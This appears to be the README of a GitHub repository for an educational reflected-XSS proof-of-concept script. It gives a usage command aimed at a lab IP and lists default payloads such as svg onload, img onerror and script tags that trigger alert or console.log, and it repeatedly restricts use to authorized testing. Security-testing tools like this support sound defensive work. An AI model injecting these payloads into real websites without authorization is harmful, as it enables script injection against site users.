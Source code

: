 # Reflected XSS PoC

**Description:**  
This repository contains a minimal, educational Proof-of-Concept for Reflected XSS (Cross-Site Scripting).  
It is intended **only for authorized lab/testing environments**.

## Requirements
- Python 3.8+
- requests library: `pip install requests`

## Usage
```bash
python exploit.py --target http://10.10.10.10:8000 --endpoint /search --param q --debug
```
## Payloads
**The script includes default payloads:**
- <svg/onload=alert(1)>
- "><svg/onload=alert(1)>
- <img src=x onerror=alert(1)>
- "><script>console.log(1)</script>
> You can also provide custom payloads with --payloads.

## Notes
- Only use in authorized testing environments.
- PoC is minimal and meant for educational purposes.
- Do not use for malicious purposes.

## License
> MIT

